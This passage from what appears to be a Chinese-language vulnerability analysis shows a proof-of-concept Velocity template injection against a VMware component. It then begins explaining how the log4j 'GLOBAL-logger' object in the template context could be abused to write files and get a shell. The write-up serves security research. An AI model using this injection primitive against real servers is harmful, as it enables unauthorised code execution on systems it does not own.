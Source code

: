 ```plain
VelocityHelper.executeVelocityExpression("#set($modelKey = $LOCAL-resourceItem.resourceItem.getKey())##\n" +
                "#set($objectId = \"vim.ServiceInstance:$modelKey.value:$modelKey.serverGuid\")##\n" +
                "#set($obj = $LOCAL-cdf20Result.newObject(\"vim.ServiceInstance\", $objectId))##\n" +
                "$obj.addProperty(\"OSTYPE\", \"VMware can't steal this PoC\")##\n" +
                "$obj.addProperty(\"BUILD\", $content-about-build)##\n" +
                "$obj.addProperty(\"VERSION\", $content-about-version)##", this.velocityInvocationContext.velocityEngine, this.velocityInvocationContext.velocityContext, logTag);
this.velocityInvocationContext.velocityJsonLd.object;
```

转换成 json 返回  
[![](assets/1704161823-0797fc246e6015ac867027e72f8a6e2c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221011122423-955c9006-491c-1.png)

### velocity GLOBAL-logger 利用构造

既然已经清楚了 poc 是怎么构造的，那么如何 getshell，自然是从 context 里已有的变量里下手，其中注意到有个`GLOBAL-logger`,是 log4j 的实例，之前分析的漏洞点就是通过 log4j 写文件的。  